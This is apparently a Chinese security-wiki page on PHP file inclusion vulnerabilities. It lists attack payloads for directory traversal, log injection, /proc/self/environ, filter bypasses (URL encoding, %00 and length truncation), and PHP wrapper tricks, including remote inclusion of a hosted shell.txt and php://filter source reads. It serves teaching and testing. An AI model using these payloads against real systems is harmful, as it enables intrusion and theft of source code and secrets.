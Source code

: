 文件包含
========================================

基础
----------------------------------------
常见的文件包含漏洞的形式为 ``<?php include("inc/" . $_GET['file']); ?>``

考虑常用的几种包含方式为

- 同目录包含 ``file=.htaccess``
- 目录遍历 ``?file=../../../../../../../../../var/lib/locate.db``
- 日志注入 ``?file=../../../../../../../../../var/log/apache/error.log``
- 利用 ``/proc/self/environ``

其中日志可以使用SSH日志或者Web日志等多种日志来源测试

绕过技巧
----------------------------------------
常见的应用在文件包含之前，可能会调用函数对其进行判断，一般有如下几种绕过方式

url编码绕过
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
如果WAF中是字符串匹配，可以使用url多次编码的方式可以绕过

特殊字符绕过
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 某些情况下，读文件支持使用Shell通配符，如 ``?`` ``*`` 等
- url中 使用 ``?`` ``#`` 可能会影响include包含的结果
- 某些情况下，unicode编码不同但是字形相近的字符有同一个效果

%00截断
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
几乎是最常用的方法，条件是magic_quotes_gpc打开，而且php版本小于5.3.4。

长度截断
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Windows上的文件名长度和文件路径有关。具体关系为：从根目录计算，文件路径长度最长为259个bytes。

msdn定义 ``#define MAX_PATH 260``，其中第260个字符为字符串结尾的 ``\0`` ，而linux可以用getconf来判断文件名长度限制和文件路径长度限制。

获取最长文件路径长度：getconf PATH_MAX /root 得到4096
获取最长文件名：getconf NAME_MAX /root 得到255

那么在长度有限的时候，``././././`` (n个) 的形式就可以通过这个把路径爆掉

在php代码包含中，这种绕过方式要求php版本 < php 5.2.8

伪协议绕过
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 远程包含: 要求 ``allow_url_fopen=On`` 且 ``allow_url_include=On`` ， payload为 ``?file=[http|https|ftp]://websec.wordpress.com/shell.txt`` 的形式
- PHP input: 把payload放在POST参数中作为包含的文件，要求 ``allow_url_include=On`` ，payload为 ``?file=php://input`` 的形式
- Base64: 使用Base64伪协议读取文件，payload为 ``?file=php://filter/convert.base64-encode/resource=index.php`` 的形式
- data: 使用data伪协议读取文件，payload为 ``?file=data://text/plain;base64,SSBsb3ZlIFBIUAo=`` 的形式，要求 ``allow_url_include=On``

参考链接
----------------------------------------
- `Exploit with PHP Protocols <https://www.cdxy.me/?p=752>`_
- `lfi cheat sheet <https://highon.coffee/blog/lfi-cheat-sheet/>`_
